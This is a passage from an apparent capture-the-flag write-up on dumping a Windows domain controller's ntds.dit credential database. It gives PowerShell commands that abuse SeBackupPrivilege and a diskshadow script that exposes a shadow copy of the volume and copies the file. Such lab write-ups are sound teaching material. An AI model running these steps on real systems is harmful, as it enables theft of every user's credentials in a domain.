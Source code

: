 So its a textbook exercice to dump domain controller. 

# Diskshadow
![Enum](/asset/images/blackfield/dump1.png)

# SeBackupPrivilege*
```powershell
Import-Module ./SeBackupPrivilegeUtils.dll
Import-Module ./SeBackupPrivilegeCmdLets.dll
Set-SeBackupPrivilege
Copy-FileSeBackupPrivilege C: <target>
```
# Exploitation
The file ntds.dit (contains all the data about users/groups including credentials) is being used by the service, thus we are not able to access it directly, a windows feature called "diskshadow" allow us to make a sort of a snapshot of volumes and allow us to access it IF we have the right to do so, but with `SeBackupPrivilege` we are able to do so. so combining diskshadow technique with the privilege abuse we will be able to get the famous ntds.dit file, and finnally dumping the credentials.

Uploading the dlls from this [**repo**](https://github.com/giuliano108/SeBackupPrivilege), and shadow.txt.
```bash
# shadow.txt
set context persistent nowriters
set metadata c:\tmp\metadata.cab
add volume c: alias trophy
create
expose {9cc45871-ce75-4529-adb7-d72aebc2a55e} z: # Needs to be set to the correct shadow disk ID
# Execution
diskshadow.exe /s C:\tmp\shadow.txt
cmd.exe /c copy z:\windows\ntds\ntds.dit c:\tmp\ntds.dit
```
